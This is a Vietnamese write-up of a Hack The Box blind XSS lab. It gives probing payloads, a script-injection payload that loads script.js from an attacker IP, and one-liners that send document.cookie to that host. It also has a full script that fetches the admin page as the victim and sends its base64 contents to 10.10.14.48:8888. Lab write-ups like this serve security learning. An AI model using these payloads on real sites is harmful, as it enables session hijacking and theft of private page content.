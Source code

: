 ```yaml
---
title: BlindXSS from HTB
tags: write-up HTB
---
```


Đây là cách mình giải một lab BlindXSS của HTB :3

# Detect vị trí dính lỗi

## Dựng server hứng dữ liệu

```bash
php -S 0.0.0.0:8888
```

## Fuzz lần lượt payload vào các vị trí có thể input được 

Payload mặc định đầu tiên:

```
'"/><img src="http://OUR_IP:PORT/param-name"
```

![image](https://hackmd.io/_uploads/rJrSBupj1l.png)

Check log 

![image](https://hackmd.io/_uploads/SkCYIdpiJe.png)

Xác định vị trí dính lỗi là param `url`

# Script.js

Ý tưởng ở đây là sẽ gửi payload có dạng:

```
'"/><script src="http://OUR_IP:PORT/script.js"></script>
```

Sau khi payload được thực thi, victim-server sẽ load file `script.js` từ attacker-server và tiếp thực thi các nội dung có trong file script.js 

Ưu điểm:
- Dễ chỉnh sửa payload, ta chỉ cần thay đổi nội dung file script.js chứ không cần phải viết payload rổi encode các thứ gửi kèm trong URI

Nhược điểm:
- Cách này có thể bị chặn =))

![Screenshot 2025-03-11 at 15.32.02](https://hackmd.io/_uploads/HJGMrdTi1x.png)

Nội dung của file **script.js**:

```
document.location='http://OUR_IP:PORT/index.php?c='+document.cookie;
```

Hoặc

```
new Image().src='http://OUR_IP:PORT/index.php?c='+document.cookie;
```

Kết quả:

![image](https://hackmd.io/_uploads/Bkw2-_RsJl.png)

Lấy được cookie của admin

# Lấy flag 

Truy cập vào trang **login.php** và set cookie thành cookie ta vừa lấy được. Có thể set bằng console như sau:

![image](https://hackmd.io/_uploads/HyBcG_RiJg.png)

Reload lại trang web, thành công vào được trang admin và nhìn thấy flag

![image](https://hackmd.io/_uploads/B1LofuCske.png)

# Thăm dò admin page, lấy flag mà không cần biết cookie

Đây có thể gọi là trường hợp CSRF tức là server vẫn thực thi mã JavaScript nhưng do server có cấu hình HttpOnly -> không thể đọc document.cookie bằng JS được.

Nên ý tưởng lúc này sẽ là tìm cách để victim-server gửi HTML content về cho attacker-server. Giúp attacker có thể xem được nội dung của trang admin 

Và vì đã biết flag nằm ở login.php

Nên ý tưởng sẽ đổi thành 
- Gửi payload đến server
- Server thực thi payload request đến script.js nằm trên máy tấn công. 
- Server thực thi script.js, gọi đến trang login.php (Do request được thực hiện bởi victim-server nên sẽ có đính kèm admin cookie)
- Lấy HTML content của login.php, encode base64 rồi gửi lại cho attacker server 


```javascript
// script.js

// Chuyển đổi string sang Base64
function encodeBase64(str) {
    return btoa(unescape(encodeURIComponent(str)));
}

// Hàm lấy HTML, lọc các dòng chứa "HTB", và gửi về server 12.12.12.12
async function fetchAndSendHTBLines() {
    try {
        const response = await fetch('http://10.129.64.169/hijacking/login.php');
        const htmlContent = await response.text();

        // Tách HTML thành các dòng và chỉ lấy những dòng chứa 'HTB'
        //const lines = htmlContent.split('\n');
        //const htbLines = lines.filter(line => line.includes('HTB')).join('\n');

        // Encode nội dung tìm được sang Base64
        const encodedData = encodeBase64(htmlContent);

        // Gửi nội dung về server 12.12.12.12
        serverURL = `http://10.10.14.48:8888/save?data=${encodeURIComponent(encodedData)}`;

        await fetch(serverURL, {
            method: 'GET',
            mode: 'no-cors' // tránh vấn đề CORS
        });

        console.log('Đã gửi HTML content thành công!');
    } catch (error) {
        console.error('Có lỗi:', error);
    }
}

// Thực thi function
fetchAndSendHTBLines();
```

Để debug cho nhanh, ta có thể sử dụng luôn console có cookie mà ta có kiếm được từ trước đó để test code 

![image](https://hackmd.io/_uploads/ByUWktRsJg.png)

Copy toàn bộ script.js vào console và gõ enter. Debug sửa code cho đến khi thành công gửi được data về cho server 

Sau khi chỉnh sửa script.js, ta có thể thử gửi lại payload đến admin thông qua tham số `url` và kiểm tra log

![image](https://hackmd.io/_uploads/S1NOgK0jkg.png)

Đem base64 data đi decode

![image](https://hackmd.io/_uploads/BJS0eF0jJx.png)

Vậy là ta đã đọc được nội dung file admin và flag mà không cần biết cookie.

Mình biết thực tế sẽ phức tạp hơn nhiều nhưng đây là một study case để chứng minh rằng sẽ luôn có nhiều hơn một cách khai thác, một cách giải quyết vấn đề, cũng như luôn có nhiều hơn một cách tấn công. 

Think out side the box and be careful :3 

**HẾT**
